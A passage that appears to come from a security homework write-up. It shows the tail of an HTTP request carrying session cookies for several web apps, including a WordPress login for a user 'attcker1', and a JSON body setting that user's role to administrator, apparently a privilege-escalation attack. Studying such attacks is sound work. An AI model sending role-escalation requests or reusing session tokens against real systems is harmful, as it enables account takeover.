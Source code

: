         Cookie: grafana_session=7cee305b146bf89decccac3eb414687f; grafana_session_expiry=1747723015; zbx_sessionid=060b0abb1800d98452c40e735dbb58fa; wp-settings-time-2=1747822280; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IklqZzRZVGcyWlRWakxUa3dZamN0TkRNMFl5MDVaREF4TFdZME5EZ3haVFptTVdNd01TST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--a69a8d8efbbef8037dbb261a0526aae27fb6c1b8; metabase.DEVICE=0af33864-c7aa-43fd-89aa-287250f4c715; vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQ3OTY5MjYzLCJlbWFpbCI6IiJ9.C9VdlIBrcP4xj1g5TzsBWQosumWuAVXLH1S6Lgzk8nI; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_8232bb51e9fa6ae4bed9f94b4ce661c2=attcker1%7C1748062618%7CGvjHpcyFfFhCylwuqLNafXmiHwJqmZ5VldxGcUkR0Bz%7Ca6226440d0bde4fe9d4cf14cce8fcf49dd365c9f342c5296f67044f265433248; wp-settings-time-3=1747889821SS
        Content-Type: application/json; charset=UTF-8
        Content-Length: 28
        {"roles": "administrator"}
        ```
     ![1747890470194](image/homework/1747890470194.png)
     ![1747890494107](image/homework/1747890494107.png)
